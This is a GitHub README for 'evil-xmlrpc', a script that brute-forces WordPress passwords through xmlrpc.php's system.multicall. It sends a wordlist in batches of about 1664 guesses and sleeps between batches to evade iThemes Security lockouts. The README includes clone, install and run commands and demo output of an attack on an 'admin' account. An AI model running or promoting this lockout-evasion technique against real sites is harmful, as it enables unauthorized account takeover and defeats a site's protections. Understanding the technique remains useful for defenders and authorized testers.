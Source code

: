 # evil-xmlrpc
evil-xmlrpc is a tool that I created to help me bruteforce wordpress user accounts using xmlrpc.php while bypassing iThemes Security preventing lockouts

While testing a specific target I noticed that xmlrpc was enabled, but after sending 5 requests against a discovered user account, I was locked out of the site. After waiting till the lockout period ended I saw that iThemes Security Plugin was being used on the site. I soon noticed that I was locked out after sending 4 requests. Regular bruteforce methods weren't going to work here. Later I discovered that you could send many login attempt via 1 single request using "system.multicall". In my particular situation I could only send 1666 login attempts in a single request (may be different for your target). So I made this script to be able to take a password list (of about 1 million words) and send it off in groups of 1664 (Initially was 1666 in the script, but cut it back by 2 for breathing room). 

For example: 
* Request 1 (Sends lines 1-1666 of wordlist) 
* Request 2 (Sends lines 1667-3332 of wordlist)
* Request 3 (Sends lines 3333-4998 of wordlist)
* Request 4 (Sends lines 4999-6664 of wordlist)

Before sending the 5th request in order to prevent being locked out of the site, stop for 5 mins and then continue going down the list.

## Install 

```sh
git clone https://github.com/0xApt/evil-xmlrpc.git
cd evil-xmlrpc
pip3 install -r requirements.txt
python3 evil-xmlrpc.py <passwordlist> <username> <https://www.examplesite.com>
```

## Demo output

```sh

root@user:~ python3 evil-xmlrpc.py 100000-pass-wordlist.txt admin https://www.examplesite.com                                                                                                                      

                 ██  ▀██                        ▀██
  ▄▄▄▄  ▄▄▄▄ ▄▄▄ ▄▄▄   ██     ▄▄▄ ▄▄▄ ▄▄ ▄▄ ▄▄    ██  ▄▄▄ ▄▄  ▄▄▄ ▄▄▄    ▄▄▄▄
▄█▄▄▄██  ▀█▄  █   ██   ██      ▀█▄▄▀   ██ ██ ██   ██   ██▀ ▀▀  ██▀  ██ ▄█   ▀▀
██        ▀█▄█    ██   ██       ▄█▄    ██ ██ ██   ██   ██      ██    █ ██
 ▀█▄▄▄▀    ▀█    ▄██▄ ▄██▄    ▄█  ██▄ ▄██ ██ ██▄ ▄██▄ ▄██▄     ██▄▄▄▀   ▀█▄▄▄▀
                                                               ██
                                                              ▀▀▀▀
                                By 0xapt

[*] Checking if site is vulnerable..
[*] Site is vulnerable!
[*] File has 100000 lines

[*] Sending Payload.. 
[*] Attempt: 1 
[*] Target User: admin
[*] Using lines 0 to 1664 from password list
[*] Content Length: 356283
[*] Interesting.. Saving response..
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 2 
[*] Target User: admin
[*] Using lines 1665 to 3328 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 3 
[*] Target User: admin
[*] Using lines 3329 to 4992 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Sending Payload.. 
[*] Attempt: 4 
[*] Target User: admin
[*] Using lines 4993 to 6656 from password list
[*] Content Length: 356069
[*] Password Not Cracked.

[*] Waiting 5 mins to prevent lockout...
```
